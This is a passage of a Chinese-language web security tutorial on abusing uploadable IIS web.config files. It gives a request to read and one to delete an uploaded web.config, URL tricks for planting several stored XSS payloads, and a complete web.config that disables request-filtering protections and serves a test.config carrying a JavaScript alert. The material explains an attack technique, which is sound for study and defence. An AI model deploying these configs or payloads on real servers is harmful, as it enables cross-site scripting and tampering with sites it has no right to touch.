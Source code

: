提取内容：

```plain
http://victim.com/testwebconfig/userfiles/web.config
```

删除内容：

```plain
DELETE /testwebconfig/userfiles/web.config HTTP/1.1
Host: victim.com
```

为了使用相同的名称创建多个XSSd payload，可以将其他参数添加到URL。 例如：

```plain
Web.config/payload1
Or
Web.config\payload1
And
Web.config?payload2
```

##### 2.3.2 使用Discovery Request Handler处理程序

`System.Web.Services.Discovery`命名空间中的`DiscoveryRequestHandler`类可用于提供XML文件（实际使用中的.disco文件）。 这可能会被利用来从XML响应中执行JavaScript代码。

如果可以上传`web.config`文件，那么我们也可以上传包含带`JavaScript`代码的XML的`test.config`文件。 以下`web.config`显示了一个示例，`test.config`文件将用作XML文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.webServer>
        <handlers>
            <add name="web_config" path="test.config" verb="*" type="System.Web.Services.Discovery.DiscoveryRequestHandler,System.Web.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

`test.config`文件如下；

```plain
<?xml version="1.0" ?>
<script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>
```
